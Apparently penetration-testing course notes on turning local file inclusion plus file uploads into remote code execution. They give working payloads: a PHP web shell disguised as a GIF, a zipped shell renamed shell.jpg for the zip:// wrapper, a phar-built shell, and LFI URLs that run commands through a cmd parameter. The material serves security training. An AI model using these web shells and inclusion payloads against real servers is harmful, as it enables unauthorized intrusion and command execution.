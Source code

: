 # LFI and File Uploads
for the attack we are going to discuss in this section, we do not require the file upload form to be vulnerable, but merely allow us to upload files. If the vulnerable function has code `Execute` capabilities, then the code within the file we upload will get executed if we include it, regardless of the file extension or file type. 

For example, we can upload an image file (e.g. `image.jpg`), and store a PHP web shell code within it 'instead of image data', and if we include it through the LFI vulnerability, the PHP code will get executed and we will have remote code execution.

The following are the functions that allow executing code with file inclusion, any of which would work with this section's attacks:

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`require()`/`require_once()`|✅|✅|❌|
|**NodeJS**||||
|`res.render()`|✅|✅|❌|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`include`|✅|✅|✅|

## Image upload
The vulnerability, in this case, is not in the file upload form but the file inclusion functionality.
### Crafting Malicious Image
Our first step is to create a malicious image containing a PHP web shell code that still looks and works as an image. 

So, we will use an allowed image extension in our file name (e.g. `shell.gif`), and should also include the image magic bytes at the beginning of the file content (e.g. `GIF8`), just in case the upload form checks for both the extension and content type as well. 

We can do so as follows:
```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
- This file on its own is completely harmless and would not affect normal web applications in the slightest. However, if we combine it with an LFI vulnerability, then we may be able to reach remote code execution.

> **Note:** We are using a `GIF` image in this case since its magic bytes are easily typed, as they are ASCII characters, while other extensions have magic bytes in binary that we would need to URL encode. However, this attack would work with any allowed image or file type.

Now, we need to upload our malicious image file.
### Uploaded File Path
Once we've uploaded our file, all we need to do is include it through the LFI vulnerability. To include the uploaded file, we need to know the path to our uploaded file.

In our case, if we inspect the source code after uploading the image, we can get its URL:
```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

> **Note:** If we do not know where the file is uploaded, then we can fuzz for an uploads directory, and then fuzz for our uploaded file, though this may not always work as some web applications properly hide the uploaded files.

With the uploaded file path at hand, all we need to do is to include the uploaded file in the LFI vulnerable function, and the PHP code should get executed, as follows:
```html
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```
## Zip Upload
There are a couple of other PHP-only techniques that utilize PHP wrappers to achieve the same goal.

We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute PHP code. However, this wrapper isn't enabled by default.

We can start by creating a PHP web shell script and zipping it into a zip archive (named `shell.jpg`), as follows:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
> **Note:** Even though we named our zip archive as (shell.jpg), some upload forms may still detect our file as a zip archive through content-type tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.

Once we upload the `shell.jpg` archive, we can include it with the `zip` wrapper as (`zip://shell.jpg`), and then refer to any files within it with `#shell.php` (URL encoded). 

Finally, we can execute commands as we always do with `&cmd=id`, as follows:
```url
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```
## Phar Upload
Finally, we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file:
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

This script can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with. 

We can compile it into a `phar` file and rename it to `shell.jpg` as follows:
```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Now, we should have a phar file called `shell.jpg`. Once we upload it to the web application, we can simply call it with `phar://` and provide its URL path, and then specify the phar sub-file with `/shell.txt` (URL encoded) to get the output of the command we specify with (`&cmd=id`), as follows:
```url
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```